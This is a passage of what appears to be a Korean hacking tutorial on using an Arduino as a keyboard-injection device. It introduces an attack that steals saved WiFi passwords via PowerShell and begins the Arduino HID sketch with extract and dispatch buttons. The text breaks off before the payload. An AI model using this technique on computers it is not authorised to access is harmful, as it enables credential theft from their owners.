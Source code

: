 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

아두이노 보드는 모두 setup 함수와 loop 함수로 구성되어 있어요.

## Setup 함수

이 함수는 아두이노가 전원이 켜질 때 한 번만 실행돼요.

## Loop 함수



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

이 기능은 설정 함수를 실행하면 계속 실행됩니다.

![이미지](/assets/img/2024-06-22-HackingacomputerusingArduino_1.png)

회로 기판(왼쪽) 다이어그램에서 버튼이 각각 핀 2와 핀 3에 연결되어 있음을 알았습니다. 따라서 스케치(오른쪽)에서 pinMode(2, INPUT); 및 pinMode(3, INPUT);를 각각 입력 구성 요소로 정의했습니다. loop 함수는 우리 함수의 실행을 정의한 곳입니다.

# 공격 1: WiFi 비밀번호 도용



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

컴퓨터가 WiFi에 연결될 때마다 WiFi 비밀번호가 시스템에 저장됩니다. 이 좋은 소식은 PowerShell 명령을 활용하여 WiFi 서비스 세트 식별자(SSID)와 비밀번호 목록을 얻을 수 있다는 것입니다.

```js
#include <Keyboard.h>
#include <EEPROM.h>
char stringArray[500] = {""};
boolean extracted = false, dispatched = false;
int extractButton = 2, dispatchButton = 3;

void setup() {
    Serial.begin(9600);
    pinMode(extractButton, INPUT);
    pinMode(dispatchButton, INPUT);
    Keyboard.begin();
}
void loop() {
    if(digitalRead(extractButton) == HIGH && !extracted) {
        extractingData();
        extracted = true;
```